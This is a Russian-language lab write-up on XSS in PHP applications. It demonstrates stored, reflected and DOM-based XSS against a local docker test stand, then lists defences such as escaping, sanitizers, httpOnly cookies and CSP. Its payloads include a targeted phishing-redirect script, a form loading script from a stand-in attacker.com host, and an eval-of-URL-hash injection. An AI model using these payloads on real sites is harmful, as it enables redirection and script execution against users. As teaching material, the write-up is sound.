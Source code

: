 ## Безопасная разработка в HTML/CSS и PHP

### I. Теоретическая часть.

В соответствии со статистикой [NST](https://nvd.nist.gov/vuln/search/statistics?form_type=Basic&results_type=statistics&query=php+xss&search_type=all&isCpeNameSearch=false) количество найденных уязвимостей XSS в приложениях, написанных на PHP составило:

в 2021 году - 378, или 1,88% от общего числа уязвимостей (20158)

в 2022 году - 367, или 1,46% от общего числа уязвимостей (25101)

Две новых уязвимости такого класса на 18 апреля 2023 года:

| Уязвимость                                                   | Дата публикации | Описание                                                     |
| ------------------------------------------------------------ | --------------- | ------------------------------------------------------------ |
| [CVE-2022-28353](https://nvd.nist.gov/vuln/detail/CVE-2022-28353) | 15.04.2023      | В плагине предупреждения о внешнем перенаправлении для [MyBB](https://mybb.com/) URL-адрес перенаправления (он же external.php?url=) уязвим для XSS. Служит для выдачи предупреждения перед переходом по внешним ссылкам |
| [CVE-2023-29847](https://nvd.nist.gov/vuln/detail/CVE-2023-29847) | 14.04.2023      | Было обнаружено, что AeroCMS v0.0.1 содержит множество уязвимостей для сохраненных межсайтовых сценариев (XSS) с помощью параметров comment_author и comment_content в /post.php . Эти уязвимости позволяют злоумышленникам выполнять произвольные веб-скрипты или HTML с помощью созданной полезной нагрузки. |



### II. Практическая часть.

Запустим тестовый стенд.

`docker pull ket9/otus-devsecops-xss:latest`
`docker run -d -p 8080:80 --name otus-05 -e tokentimetolive=6000 ket9/otus-devsecops-xss:latest`

#### Stored XSS

Вид атаки, когда результат достигается при открытии пользователем страницы, куда выводится информация, хранящаяся на сервере. Такой тип атаки не требует обязательной фишиноговой подготовки в отношении пользователей, так как вредоносный код доставляется на их машины при посещении зараженного сайта.

В исследуемом сервисе такой вариант атаки доступен через добавление комментария. Например, можно организовать вывод сообщения при каждом открытии страницы со списком комментариев, указав в качестве текста комментария при его добавлении текст:

`My first comment!<script>alert("Congratulations! You was hacked!")</script>`

Можно привести сервис в состояние отказа в обслуживании в части просмотра или добавления комментариев, или выполнить редирект на фишинговый сайт с таким-же дизайном:

`<script>window.location.href="https://google.com"</script>`

В этом случае при открытии страницы с комментариями автоматически будет происходить редирект на указанную ссылку.

Могут быть случаи, когда подобного рода атака должна совершаться в отношении только одного или нескольких пользователей, а другие о ней знать не должны.  Доработав скрипт, мы получим его срабатывание только при наличии в адресной строке параметра **attack** со значением **true**:

<pre>
    <script> 
        const params = new URLSearchParams(window.location.search); 
        const attack= params.get("attack"); 
        if(attack==="true") { 
            window.location.href="https://google.com" 
        }; 
    </script>
</pre>

Нужным пользователям может быть отправлена должным образом сформированная ссылка фишинговым письмом, а остальные про наличие такой проблемы даже не узнают:

`http://localhost:8080/XSS-1/index.php?attack=true`

#### Reflected XSS

Вид атаки, когда результат достигается после ввода пользователем вредоносного кода. Другое название - неперсистентный XSS, так как вредоносный код не хранится на сервере. Вариант использования такой атаки - фишинговое письмо со ссылкой, содержащей вредоносный код:

`get.php?search=<script>alert("XSS ATTACK!")></script>;`

или через POST-запрос, например, в заранее подготовленной форме:

<form name=TheForm action=http://myapp.com/page.php method=post><input type=hidden name=foo value="<script src=http://attacker.com/bad.js></script>;"/></form>

В исследуемом приложении такой вид атаки недоступен.

#### DOM-based XSS

Межсайтовые скрипты на основе DOM – это уязвимость, которая появляется в объектной модели документа, а не на HTML-страницах. В этом случае выполняется манипулирование компонентами объектной модели документа, без отправки вредоносного кода на сервер, что существенно усложняет обнаружение такой уязвимости.

Так как в чистом виде этот тип атаки в приложении недоступен, попробуем продемонстрировать его, используя дополнительно Stored XSS.

С помощью простого скрипта и правильно сформированных ссылок мы можем выполнять произвольный код на атакуемой машине:

Добавляем комментарий:

`<script>var l = location.hash.slice(1);eval(l);</script>`

Формируем ссылку:

`http://localhost:8080/XSS-1/#alert('Surprise!')`

И получаем результат:

![surprise](./images/surprise.png)

Особенностью DOM-based атак является то, что они выполняются исключительно на стороне клиента. Это достигается за счет использования символа **#** в ссылке, так как все что находится после него отрезается и на сервер не передается, но доступно в JavaScript на клиенте. То есть в нашем случае для выполнения любоых операций, на которые способен JavaScript, нам достаточно только 1 зараженного комментария.

#### Blind XSS

Подвид Stored XSS, только ориентирован на отложенное срабатывание, и вообще не обязательно в этом приложении. Зачастую используется для атаки на административные панели сервисов.

#### Self XSS

Вид атаки, когда пользователь самостоятельно запускает вредоносный код, например в консоли браузера. 

#### mXSS (mutation-based XSS)

Относительно новый и достаточно опасный вектор атак. Заключается в том, что безопасный с точки зрения HTML-санитайзеров пользовательского ввода скрипт, после его обработки превращается во вредоносный. 

Примеры атаки с использованием этого метода для [Firefox](https://portswigger-labs.net/mxss/?input=%3Cmath%3E%3Cmtext%3E%3Ctable%3E%3Cmglyph%3E%3Cstyle%3E%3C![CDATA[%3C/style%3E%3Cimg%20title=%22]]%26gt;%26lt;/mglyph%26gt;%26lt;img%26Tab;src=1%26Tab;onerror=alert(1)%26gt;%22%3E) и [Chrome-based](https://portswigger-labs.net/mxss/?input=%3Cmath%3E%3Cmtext%3E%3Ctable%3E%3Cmglyph%3E%3Cstyle%3E%3C!--%3C/style%3E%3Cimg%20title=%22--%26gt;%26lt;img%20src=1%20onerror=alert(1)%26gt;%22%3E) браузеров.



### Основные технические способы противодействия XSS-атакам.

Экранирование входных и выходных данных, по возможности избегая самописных решений - лучше использовать или штатные средства языка, или популярные проверенные библиотеки (например, для PHP это Reform или HTML Purifier), отсекая HTML-теги и другие потенциально опасные данные.

Валидация пользовательского ввода.

Использование HTML-санитайзеров.

Установка для cookies, содержащих чуствительные данные флага **httpOnly** - тогда они не будут доступны для чтения через JavaScript.

Явно указывать кодировку страницы, чтобы избежать проблем с экранированием символов **<** и **>**, если они указаны в кодировке **UTF-7** (тогда они имеют вид **+ADw-** и **+AD4-** и скорее всего будут пропущены при валидации или экранировании, а с ними и весь вредоносный скрипт).

Использовать заголовок **Content Security Policy**. Это заголовок, который позволяет в явном виде объявить «белый список» источников, с которых можно подгружать различные данные, например, JS, CSS, изображения и пр. Даже если злоумышленнику удастся внедрить скрипт в веб-страницу, он не выполниться, если не будет соответствовать разрешенному списку источников (при условии внедрения через **script src=...**)

Регулярный анализ новых обнаруженных уязвимостей и обновление зависимостей проекта на версии, в которых обнаруженные уязвимости устранены.
